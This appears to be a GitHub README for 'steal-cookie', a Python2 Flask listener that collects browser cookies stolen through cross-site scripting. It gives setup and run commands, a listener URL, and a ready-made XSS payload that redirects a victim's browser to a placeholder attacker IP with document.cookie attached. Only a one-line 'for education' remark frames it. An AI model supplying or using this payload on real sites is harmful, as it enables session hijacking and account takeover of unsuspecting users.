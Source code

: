 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><script>document.location="http://YOUR_IP/cookie?cookie=" + document.cookie </script>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook  : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>
- Hackerone : <a href="http://hackerone.com/knassar702">Khaled Nassar</a>

